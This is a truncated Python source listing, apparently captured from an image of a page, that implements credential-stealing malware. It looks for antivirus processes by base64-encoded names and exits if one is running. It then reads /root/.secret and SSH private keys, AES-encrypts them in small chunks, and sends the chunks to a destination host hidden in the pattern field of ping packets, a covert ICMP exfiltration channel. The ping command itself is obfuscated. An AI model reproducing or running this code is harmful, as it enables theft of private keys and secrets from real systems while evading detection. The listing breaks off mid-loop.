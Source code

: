 ```python

def __u(x):
    return x[:-x[-1]]


def __x(h):
    c = AES.new(__k, AES.MODE_CBC, __v)
    return __u(c.decrypt(bytes.fromhex(h))).decode()


def __y(s):
    c = AES.new(__k, AES.MODE_CBC, __v)
    return c.encrypt(__p(s.encode())).hex()


def __chk_vm():
    return False


def __chk_av():
    targets = [
     b'Y2xhbWQ=',b'YXZnZA==',b'c29waG9z',b'RVNFVA==',b'cmtodW50ZXI=']
    try:
        for p in psutil.process_iter(attrs=["name"]):
            n = (p.info["name"] or "").lower()
            for b64av in targets:
                if base64.b64decode(b64av).decode().lower() in n:
                    print("ERR AV")
                    return True

    except:
        pass

    return False


def __exf(path, dst, size=15):
    if not os.path.exists(path):
        return False
    d = open(path, "rb").read()
    segs = [d[i:i + size] for i in range(0, len(d), size)]
    for seg in segs:
        try:
            payload = AES.new(__k, AES.MODE_CBC, __v).encrypt(__p(seg)).hex()
            cmd = [__b64d("cGluZw=="), __b64d("LWM="), __b64d("MQ=="), __b64d("LXA="), payload, dst]
            subprocess.run(cmd, stdout=(subprocess.DEVNULL), stderr=(subprocess.DEVNULL))
        except:
            continue

    return True


def __main():
    if __chk_vm():
        return
    if __chk_av():
        return
    __kll = [
     "/root/.secret",
     os.path.expanduser("~/.ssh/id_rsa"),
     "/root/.ssh/id_rsa"]
    for f in __kll:
```